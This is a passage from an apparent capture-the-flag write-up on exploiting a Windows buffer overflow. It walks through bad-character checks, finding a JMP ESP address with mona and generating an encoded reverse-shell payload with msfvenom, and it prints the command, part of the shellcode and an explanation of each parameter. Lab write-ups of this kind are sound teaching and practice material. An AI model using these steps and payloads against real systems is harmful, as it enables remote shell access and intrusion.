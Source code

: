 Here we see our A's (41), then B's (42), and then our bad characters in reverse. We are looking through the list to see if any are missing. If they are then we know we can't use those characters in our payload. Having checked through the list we find that they are all there.

The final step is to find the location of ESP, we need this because we use it to point to our payload. A simple way is to use [mona](https://github.com/corelan/mona) which has a command to find it:

```text
!mona jmp -r esp
```

Running that in Immunity we see 9 results:

![brainstorm-esp](/assets/images/2021-02-20-16-58-40.png)

Let's take the first one, which is 0x625014DF. We'll need to change that to the correct [Little Endian](https://en.wikipedia.org/wiki/Endianness) format in our script, which we'll get to soon. First we need our payload, for this we use MSFVenom:

```text
root@kali:/home/kali/thm/brainstorm# msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.20 LPORT=1234 EXITFUNC=thread -f py -e x86/shikata_ga_nai -b "\x00"
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of py file: 1712 bytes
buf =  b""
buf += b"\xba\x40\xfd\xb6\x4c\xd9\xe9\xd9\x74\x24\xf4\x58\x31"
buf += b"\xc9\xb1\x52\x83\xc0\x04\x31\x50\x0e\x03\x10\xf3\x54"
buf += b"\xb9\x6c\xe3\x1b\x42\x8c\xf4\x7b\xca\x69\xc5\xbb\xa8"
<SNIP>
```

Those parameters explained:

```text
-p windows/shell_reverse_tcp = Payload is a Windows reverse shell
LHOST=192.168.0.20           = IP to connect back to is my Kali machine
LPORT=1234                   = Port to connect to on Kali
-f py                        = Output payload in python for our script
-e x86/shikata_ga_nai        = Which encoder to use
-b "\x00"                    = Bad characters to avoid
```
